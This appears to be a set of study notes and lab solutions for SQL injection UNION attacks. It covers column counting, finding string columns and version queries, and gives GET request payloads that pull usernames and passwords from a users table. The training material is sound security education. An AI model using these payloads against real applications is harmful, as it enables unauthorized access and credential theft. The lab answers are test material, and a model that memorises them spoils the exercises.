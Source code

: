 # SQL Injection UNION Attacks

### For a UNION query to work, two key requirements must be met:
- The individual queries must return the same number of columns.
- The data types in each column must be compatible between the individual queries.

### To carry out an SQL injection UNION attack, you need to ensure that your attack meets these two requirements. This generally involves figuring out:
- How many columns are being returned from the original query?
- Which columns returned from the original query are of a suitable data type to hold the results from the injected query?

### When performing an SQL injection UNION attack, there are two effective methods to determine how many columns are being returned from the original query.

### The first method involves injecting a series of ORDER BY clauses and incrementing the specified column index until an error occurs. For example, assuming the injection point is a quoted string within the WHERE clause of the original query, you would submit:
`' ORDER BY 1--` <br>
`' ORDER BY 2--` <br>
`' ORDER BY 3--` <br>

### The second method involves submitting a series of UNION SELECT payloads specifying a different number of null values:
`' UNION SELECT NULL--` <br>
`' UNION SELECT NULL,NULL--` <br>
`' UNION SELECT NULL,NULL,NULL--` <br>

### The reason for using NULL as the values returned from the injected SELECT query is that the data types in each column must be compatible between the original and the injected queries. Since NULL is convertible to every commonly used data type, using NULL maximizes the chance that the payload will succeed when the column count is correct.
### On Oracle, every SELECT query must use the FROM keyword and specify a valid table. There is a built-in table on Oracle called dual which can be used for this purpose. So the injected queries on Oracle would need to look like: ' UNION SELECT NULL FROM DUAL--.
### The payloads described use the double-dash comment sequence -- to comment out the remainder of the original query following the injection point. On MySQL, the double-dash sequence must be followed by a space. Alternatively, the hash character # can be used to identify a comment.

### Having already determined the number of required columns, you can probe each column to test whether it can hold string data by submitting a series of UNION SELECT payloads that place a string value into each column in turn. For example, if the query returns four columns, you would submit:
`' UNION SELECT 'a',NULL,NULL,NULL--` <br>
`' UNION SELECT NULL,'a',NULL,NULL--` <br>
`' UNION SELECT NULL,NULL,'a',NULL--` <br>
`' UNION SELECT NULL,NULL,NULL,'a'--` <br>

### If the data type of a column is not compatible with string data, the injected query will cause a database error

### Database Version

### The queries to determine the database version for some popular database types are as follows:
> Database type Query <br>
> Microsoft, MySQL `SELECT @@version` <br>
> Oracle `SELECT * FROM v$version` <br>
> PostgreSQL `SELECT version()` <br>
> For example, you could use a UNION attack with the following input: <br>

`' UNION SELECT @@version--`

# Lab: SQL injection UNION attack, determining the number of columns returned by the query

### *To solve the lab, determine the number of columns returned by the query by performing an SQL injection UNION attack that returns an additional row containing null values.*
`GET /filter?category=Pets'+UNION+SELECT+NULL,NULL,NULL--`

# Lab: SQL injection UNION attack, finding a column containing text

### This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you first need to determine the number of columns returned by the query. You can do this using a technique you learned in a previous lab. The next step is to identify a column that is compatible with string data.

### The lab will provide a random value that you need to make appear within the query results. To solve the lab, perform an SQL injection UNION attack that returns an additional row containing the value provided. This technique helps you determine which columns are compatible with string data.

- Number of Columns
`GET /filter?category=Gifts'+UNION+SELECT+NULL,NULL,NULL--`

- Identify String Columns
`GET /filter?category=Gifts'+UNION+SELECT+NULL,'a',NULL--`

- Return Specific String
`GET /filter?category=Gifts'+UNION+SELECT+NULL,'SI0fBf',NULL--`

# Lab: SQL injection UNION attack, retrieving data from other tables

### This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.

### The database contains a different table called users, with columns called username and password.

### *To solve the lab, perform an SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user.*

- Number of Columns
`GET /filter?category=Gifts'+UNION+SELECT+NULL,NULL--`

- Extract Usernames and Passwords From Users table
`GET /filter?category=Gifts'+UNION+SELECT+username,password+FROM+users--`

# Lab: SQL injection UNION attack, retrieving multiple values in a single column

### This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

### The database contains a different table called users, with columns called username and password.

### *To solve the lab, perform an SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user.*

- Number of Columns
`GET /filter?category=Lifestyle'+UNION+SELECT+NULL,NULL--`

- Extract Usernames and Passwords From Users table
`GET /filter?category=Gifts'+UNION+SELECT+NULL,username+||+'~'+||+password+FROM+users--`